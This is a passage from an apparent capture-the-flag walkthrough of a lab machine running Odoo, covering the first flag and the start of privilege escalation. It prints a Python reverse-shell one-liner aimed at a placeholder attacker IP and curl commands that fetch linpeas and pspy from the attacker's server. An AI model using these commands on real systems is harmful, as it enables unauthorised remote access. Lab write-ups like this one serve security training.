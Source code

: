 To save you some headache, following the PoC I kept getting an error saying `TypeError: 'bool' object is not iterable` and I wasn't getting a reverse shell.  
After trying for hours and giving up, I found [this write-up](https://github.com/ChrisPritchard/ctf-writeups/blob/master/tryhackme-rooms/obscured.md) explaining that:

- This error happens and can be ignored
- You should use python2.7 on the PoC code
- The target site is running on a restricted docker container which means many common tools will not be present. E.g., no wget, no advanced version of bash or whatever.

For some reason it never occured to me to test the payload to see if I can either ping myself or something. Anyway, moving on...

After testing the payload and seeing that it's being executed, I replaced the curl payload with a python reverse-shell payload since I know python is installed on the server

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attacker_ip>", <attacker_port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

And we're in...

![31b80fbbf11c37b21fca33a323d9ba51.png](31b80fbbf11c37b21fca33a323d9ba51.png){: w="500" .center}

```bash
python -c "import pty; pty.spawn('/bin/bash')"
export TERM=xterm
# Background the shell by pressing CTRL+Z
stty raw -echo && fg
```

- We have a reverse-shell as the user `odoo`
- The fist flag can be found inside its home directory  

![19cc5a0f1ceb479079365559758e19ea.png](19cc5a0f1ceb479079365559758e19ea.png){: w="400" .center}

## Flag 2

Let's get `linpeas` and `pspy` onto the machine

```bash
python3 -m http.server 80 # Attacker machine (run inside linpeas and pspy direcory)
curl <attacker_ip>/linpeas.sh -o linpeas.sh
curl <attacker_ip>/pspy64 -o pspy
chmod 700 linpeas.sh pspy
```

![380da9c6165f8b13d51e22d648c7c0b1.png](380da9c6165f8b13d51e22d648c7c0b1.png){: w="400" .center}

### Linpeas

![c567b6b7fe680703297960ea52cd3ee5.png](c567b6b7fe680703297960ea52cd3ee5.png){: w="400" .center}
